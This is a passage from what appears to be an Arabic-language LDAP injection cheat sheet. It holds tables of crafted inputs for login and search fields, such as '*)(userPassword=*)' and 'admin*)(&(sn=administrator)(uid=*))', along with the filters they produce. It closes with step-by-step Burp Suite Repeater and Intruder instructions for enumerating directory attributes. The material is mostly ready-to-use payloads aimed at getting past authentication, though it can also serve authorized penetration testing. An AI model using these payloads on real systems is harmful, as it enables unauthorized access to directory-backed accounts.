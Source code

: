 | `userPrincipalName`     | `*)(userPrincipalName=*)`                           | `(&(uid=*)(userPrincipalName=*))(userPassword=anything))`                            | اختبار وجود اسم المستخدم الرئيسي في Active Directory.                  |

### محاولات مع مستخدم معين
| **الخاصية**            | **الإدخال في حقل اسم المستخدم**                     | **الاستعلام الناتج**                                                                 | **الغرض**                                                                 |
|-------------------------|-----------------------------------------------------|--------------------------------------------------------------------------------------|---------------------------------------------------------------------------|
| `uid`                   | `admin*)(&(sn=administrator)(uid=*))`               | `(&(uid=admin*)(&(sn=administrator)(uid=*))(userPassword=anything))`                 | اختبار `uid` لمستخدم `administrator`.                                    |
| `cn`                    | `admin*)(&(sn=administrator)(cn=*))`                | `(&(uid=admin*)(&(sn=administrator)(cn=*))(userPassword=anything))`                  | اختبار `cn` لمستخدم `administrator`.                                     |
| `sn`                    | `admin*)(&(sn=administrator)(sn=*))`                | `(&(uid=admin*)(&(sn=administrator)(sn=*))(userPassword=anything))`                  | اختبار `sn` لمستخدم `administrator`.                                     |
| ... (كرر لجميع الخصائص) | ...                                                 | ...                                                                                  | ...                                                                       |

### محاولات في نموذج بحث
| **الخاصية**            | **الإدخال في حقل البحث**                           | **الاستعلام الناتج**                                                                 | **الغرض**                                                                 |
|-------------------------|-----------------------------------------------------|--------------------------------------------------------------------------------------|---------------------------------------------------------------------------|
| `uid`                   | `(uid=*)`                                           | `(uid=*)`                                                                            | اختبار وجود `uid` في استعلامات البحث.                                   |
| `cn`                    | `(cn=*)`                                            | `(cn=*)`                                                                             | اختبار وجود `cn` في استعلامات البحث.                                    |
| `sn`                    | `(sn=*)`                                            | `(sn=*)`                                                                             | اختبار وجود `sn` في استعلامات البحث.                                    |
| ... (كرر لجميع الخصائص) | ...                                                 | ...                                                                                  | ...                                                                       |

---

## مثال عملي باستخدام Burp Suite
لنفترض أنك تختبر موقعًا باستخدام Burp Suite:
1. اضبط المتصفح لتوجيه حركة المرور عبر Burp Suite (افتراضيًا `127.0.0.1:8080`).
2. افتح نموذج تسجيل الدخول أو البحث وأدخل:
   - اسم المستخدم: `*)(userPassword=*)`
   - كلمة المرور: `anything`
3. في Burp Suite:
   - انتقل إلى **Proxy > HTTP History** وابحث عن الطلب المرسل (POST أو GET).
   - انسخ الطلب إلى **Repeater**.
4. في **Repeater**:
   - أرسل الطلب وتحقق من الاستجابة (مثل رمز الحالة، محتوى الصفحة، أو نص معين).
   - إذا كانت الاستجابة إيجابية (مثل صفحة تحتوي على "Welcome" أو رمز 200)، فـ `userPassword` صالحة.
   - كرر العملية مع خصائص أخرى (مثل `*)(cn=*)`, `*)(sn=*)`).
5. إذا كنت تستخدم **Intruder**:
   - ضع قائمة الخصائص في قسم Payloads (مثل `uid`, `cn`, `sn`, ...).
   - عدّل الطلب ليحتوي على `*)(§ATTRIBUTE§=*)` وحدد `ATTRIBUTE` كموقع Payload.
   - ابدأ الهجوم وتحقق من الاستجابات لتحديد الخصائص الصالحة.

---
